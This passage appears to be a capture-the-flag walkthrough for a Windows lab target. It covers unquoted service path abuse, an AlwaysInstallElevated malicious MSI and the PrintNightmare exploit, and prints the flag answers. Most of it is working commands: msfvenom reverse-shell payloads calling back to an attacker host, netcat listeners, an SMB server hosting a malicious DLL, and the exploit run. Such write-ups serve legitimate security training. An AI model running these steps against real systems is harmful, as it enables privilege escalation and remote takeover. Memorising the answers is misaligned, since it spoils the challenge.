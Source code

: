 ### FLAG 014: Unquoted Service Path #2 (30 points)
**Location**: Exploiting CommonAppService
```bash
# Using same exploit and listener from FLAG 013
# In Evil-WinRM:
*Evil-WinRM* PS C:\> copy "C:\Program Files\Vulnerable.exe" "C:\Program Files\Common.exe"
*Evil-WinRM* PS C:\> Restart-Service CommonAppService

# In SYSTEM shell:
C:\Windows\system32> type C:\flag_unquoted2.txt
# Output: FLAG{VAPOREON64436018}
```

### FLAG 015: Unquoted Service Path #3 (35 points)
**Location**: Exploiting VendorUpdater service
```bash
# In Evil-WinRM:
*Evil-WinRM* PS C:\> copy "C:\Program Files\Vulnerable.exe" "C:\Program Files (x86)\Vendor.exe"
*Evil-WinRM* PS C:\> Restart-Service VendorUpdater

# In SYSTEM shell:
C:\Windows\system32> type C:\flag_unquoted3.txt
# Output: FLAG{JOLTEON52080210}
```

### FLAG 016: AlwaysInstallElevated MSI (40 points)
**Location**: Exploiting AlwaysInstallElevated policy
```bash
# On Kali, create malicious MSI:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=5555 -f msi -o evil.msi

# Start new listener:
nc -lvnp 5555

# In Evil-WinRM session:
*Evil-WinRM* PS C:\> mkdir C:\Temp 2>$null
*Evil-WinRM* PS C:\> upload evil.msi C:\Temp\evil.msi
*Evil-WinRM* PS C:\> msiexec /quiet /qn /i C:\Temp\evil.msi

# In SYSTEM shell:
C:\Windows\system32> type C:\Windows\System32\config\systemprofile\msi_flag.txt
# Output: FLAG{FLAREON04930613}
```

### FLAG 017: PrintNightmare Exploitation (45 points)
**Location**: Exploiting Print Spooler vulnerability
```bash
# On Kali, setup PrintNightmare exploit:
git clone https://github.com/cube0x0/CVE-2021-34527.git
cd CVE-2021-34527

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=6666 -f dll > nightmare.dll

# Start SMB server and listener
impacket-smbserver share . -smb2support
nc -lvnp 6666

# Run exploit
python3 CVE-2021-34527.py 'admin:admin@192.168.1.22' '\\192.168.1.7\share\nightmare.dll'

# In SYSTEM shell:
C:\Windows\system32> type C:\Windows\System32\spool\drivers\color\printnightmare_flag.txt
```